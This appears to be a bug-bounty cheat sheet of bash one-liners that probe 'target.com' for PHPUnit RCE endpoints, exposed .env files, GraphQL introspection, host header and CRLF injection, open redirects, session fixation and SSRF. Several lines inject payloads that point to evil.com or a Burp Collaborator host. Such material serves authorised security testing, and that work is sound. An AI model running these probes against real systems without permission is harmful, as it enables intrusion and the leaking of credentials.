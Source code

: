 ### PHP Unit RCE Finder (Real-World Gold)
```bash
subfinder -d target.com | httpx -silent -path /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -mc 200 -o phpunit_rce.txt
```

### GraphQL Misconfig Detection (Introspection Enabled)
```bash
cat all_urls.txt | grep 'graphql' | xargs -I{} curl -s -X POST -d '{"query":"{__schema{types{name}}}"}' {} | grep -iq 'types' && echo "{} introspection enabled" >> graphql_misconfigs.txt
```

### Host Header Injection
```bash
cat all_urls.txt | httpx -silent -H 'Host: evil.com' -hdrs | grep -i 'evil.com' | tee host_header_injection.txt
```

### Open Redirect Finder (Redirection Abuse)
```bash
cat all_urls.txt | gf redirect | qsreplace 'https://evil.com' | httpx -silent -fr 'https://evil.com' -o open_redirects.txt
```

### Session Fixation Detection
```bash
cat all_urls.txt | gf login | qsreplace 'sessionid=1234abcd' | httpx -silent -fr '1234abcd' -o session_fixation.txt
```

### Exposed .env Files (Sensitive Config Exposure)
```bash
subfinder -d target.com | httpx -silent -path /.env -mc 200 -o exposed_env.txt
```

### SSRF Detection (Collaboration Automation)
```bash
cat all_urls.txt | gf ssrf | qsreplace 'http://your-collab-url.burpcollaborator.net' | httpx -silent
```

### CRLF Injection
```bash
cat all_urls.txt | gf crlf | qsreplace '%0D%0ASet-Cookie:crlf=found' | httpx -silent -fr 'crlf=found' -o crlf_injections.txt
```

### CMS Detection (for Known Exploits)
```bash
subfinder -d target.com | httpx -silent -tech-detect -o cms_detected.txt
```
